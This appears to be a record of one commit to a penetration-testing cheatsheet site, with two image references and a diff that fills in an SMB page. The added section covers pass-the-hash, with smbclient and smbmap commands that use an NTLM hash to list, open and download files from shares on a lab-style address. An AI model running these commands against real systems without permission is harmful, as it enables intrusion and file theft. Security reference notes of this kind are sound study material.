

Before and after one commit to agrzeslak/cheatsheet, a Jekyll site: the page built from _topics/smb.md, in a window 1280 px wide. Shown: the top 472 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_topics/smb.md
+++ b/_topics/smb.md
@@ -6,9 +6,25 @@ tags:
     - 445
     - block
     - message
+    - samba
     - server
     - smbclient
+    - smbd
+    - smbmap
 ---
 # smb
 
-todo
+### Pass-the-hash
+
+List directories
+
+`smbclient -U <user>%<hash> --pw-nt-hash -L 10.10.10.10`
+
+`smbmap -u <user> -p '<NTLM hash>:<LM hash>' -H 10.10.10.10` _LM hash is legacy and can usually be anything_
+
+- `--download <path>`: download file
+- `-R`: recursively list files
+
+Open specific directory
+
+`smbclient -U <user>%<hash> --pw-nt-hash //10.10.10.10/<directory>`
```
Also changed, not shown: _topics/ldap.md (+10 -1 lines), _topics/linux-privesc.md (+11 -0 lines), _topics/nmap.md (+7 -1 lines).
